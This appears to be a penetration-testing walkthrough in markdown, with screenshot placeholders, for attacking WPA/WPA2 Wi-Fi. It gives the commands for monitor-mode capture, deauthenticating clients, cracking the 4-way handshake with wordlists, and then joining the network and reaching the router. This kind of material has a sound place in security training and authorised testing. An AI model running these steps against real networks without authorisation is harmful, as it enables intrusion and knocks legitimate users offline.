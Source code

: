 # Attacking WPA and WPA-2

1. Run an `airodump-ng`  scan: 

```
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon --band abg
```

We find our WPA Enterprise network of interest:

**Screenshot of initial airodump screenshot goes here:**

![](image.png)

  

  

2. We try a more targeted scan: 

```
sudo airodump-ng wlan0mon --bssid <BSSID>  --channel <CHANNEL> -w <FILE_PREFIX> --output-format pcap
```

**Screenshot of targeted airodump goes here:**

![](image.png)

  

  

3. If there are any clients, we can attempt to de-authenticate them all: 

```
sudo aireplay-ng -0 5 -a <BSSID> wlan0mon

```

  

  

4. We see that we get a WPA handshake during our `airodump-ng`  scan: 

**Screenshot of 4-way handshake:**

![](image.png)

  

  

5. We can conclude the `airodump-ng`  scan and we can proceed to crack the 4-way handshake. 

```
sudo aircrack-ng <PCAP FILE> -w /usr/share/wordlists/rockyou.txt

sudo aircrack-ng <PCAP FILE> -w /usr/share/john/password.lst
```

**Screenshot of cracking 4-way handshake:**

![](image.png)

  

  

6. After cracking the password, we can include the password inside of the network configuration file: 

  

- WiFi configuration file we can save as `wpa.conf` 

```
network={
  ssid="<SSID>"
  key_mgmt=WPA-PSK
  psk="<PASSWORD>"
  proto=RSN
}

```

  

- Connect to the wireless network with that configuration file: 

```
sudo wpa_supplicant -D nl80211 -i wlan0 -c wpa.conf 

```

  

In a separate terminal, we can grab another IP address via DHCP:

```
sudo dhclient wlan0 -v
```

  

  

7. We confirm that we are on the network: 

```
iwconfig
```

**Screenshot of the wireless interface**

![](image.png)


8. We browse to the router endpoint IP `x.x.x.1` in the browser: 

```
firefox x.x.x.1
```  
